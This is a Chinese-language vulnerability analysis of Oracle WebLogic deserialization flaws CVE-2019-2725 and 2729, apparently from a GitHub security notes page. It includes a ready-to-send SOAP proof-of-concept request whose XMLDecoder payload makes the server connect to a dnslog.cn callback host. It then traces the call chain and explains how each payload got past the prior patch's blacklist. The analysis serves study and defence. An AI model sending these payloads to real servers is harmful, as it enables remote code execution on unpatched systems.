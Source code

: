 - [CVE-2019-2725 & 2729 反序列化](#cve-2019-2725--2729-反序列化)
  - [POC](#poc)
  - [原理](#原理)
    - [调用链](#调用链)
    - [Bypass CVE-2017-12071](#bypass-cve-2017-12071)
      - [payload构造](#payload构造)
- [BypassCVE-2019-2725->2729](#bypasscve-2019-2725-2729)
# CVE-2019-2725 & 2729 反序列化
影响版本
```
Oracle WebLogic Server 10.*
Oracle WebLogic Server 12.1.3
```
影响组件
```
bea_wls9_async_response.war
wsat.war 
```
## POC
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 748
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
    <class>
        <string>java.net.Socket</string>
        <void>
            <string>d2r0h9.dnslog.cn</string>
            <int>80</int>
        </void>
    </class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
## 原理
主要在于bea_wls9_async_response.war和wsat.war组件中处理soap消息时使用了XMLDecoder进行解析xml数据,触发了XMLDecoder反序列化漏洞,而这次也则绕过了CVE-2017-12071的补丁. 
### 调用链
>Tips:调试时不知道从哪打断点时直接在最后的ProcessBuilder类打断点,则可得到调用链,再反向寻找相关组件的触发流程.

调用链如下,从`Soapprocessor.process`开始处理soap数据,最后从`WorkContextXmlInputAdapter.readUTF`中进入`XMLDecoder.readObject`触发XMLDecoder反序列化.
![](4.png)

在`process`中根据请求类型为post,调用`handlePost`,在`handlePost`中主要为解析和封装soap消息,最后调用var7即WsSkel类的invoke方法.
![](5.png)
在`WsSkel.invoke`中实例化了一个ServerDispatcher对象,并设置了其Wsport和Connection属性,分别为请求的服务url和http,然后调用`ServerDispatcher.dispatch`.
![](6.png)
在`ServerDispatcher.dispatch`中调用` this.getHandlerChain().handleRequest(this.getContext(), var6);`,而getHandlerChain()即为`HandlerIterator`,即继续调用`HandlerIterator.handleRequest`.
![](7.png)
在`handleRequest`中var4赋为了`WorkAreaServerHandler`.
![](8.png)
然后调用了`WorkAreaServerHandler.handleRequest`,其中var3为通过`WlMessageContext var3 = WlMessageContext.narrow(var1)`获得的MessageContext对象.
![](9.png)
在`WorkAreaServerHandler.handleRequest`中,获取到soap的headers,然后实例化了一个`WorkContextMapInterceptor`对象,将获取到的WorkAreaHeader(var4)传入`new WorkContextXmlInputAdapter`中,再将该`WorkContextXmlInputAdapter`传入`receiveRequest`中.
![](10.png)
然后经过`WorkContextLocalMap.receiveRequest`调用`WorkContextEntryImpl.readEntry`,最后在`readEntry`中调用`WorkContextXmlInputAdapter.readUTF`.
![](11.png)
而在`readUTF`中则直接返回调用xmlDecoder.readObect()触发XMLDecoder反序列化.
![](12.png)
### Bypass CVE-2017-12071
该漏洞与weblogic之前的CVE-2017-3506&CVE-2017-12071原理类似,只不过入口点不一样,最后都是触发XMLDecoder反序列化漏洞,而该漏洞主要在于绕过了之前CVE-2017-12071补丁中的黑名单.
因为在之前的补丁中无法调用对象的对应方法,所以在该漏洞中的利用思路为在对象的构造函数中触发rce,在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞造成了远程代码执行。
#### payload构造
在官方文档中可以看到class标签也可以指定实例化任意类,从而绕过了`object、new、method`关键字黑名单来实例化对象.
![](13.png)
因为`void`标签受限的原因,无法调用对象的相应方法,则从对象实例化过程中的构造函数下手,通过对象自动执行的构造函数来触发RCE,同时因为array标签的限制,构造函数的参数只能为bytes类型.思路则为利用class标签来实例化类,再利用void标签传入bytes类型的参数进行利用.

**利用链:**
Weblogic自带的1.6:jdk7u21 gadget  
12.1.3: org.slf4j.ext.EventData  
...  
...  
... 
# BypassCVE-2019-2725->2729
在2019-2725的补丁中继续把class加入了黑名单,而在2729中则是使用`<array method=”forName”>`来代替class标签,因为在weblogic自带的jdk1.6来说,这两个标签是相同效果的可以进行替换.而在2729的补丁中则使用了白名单,且对白名单的标签进行了属性的类型限制.

##
参考:  
https://www.freebuf.com/articles/web/202203.html  
https://paper.seebug.org/909/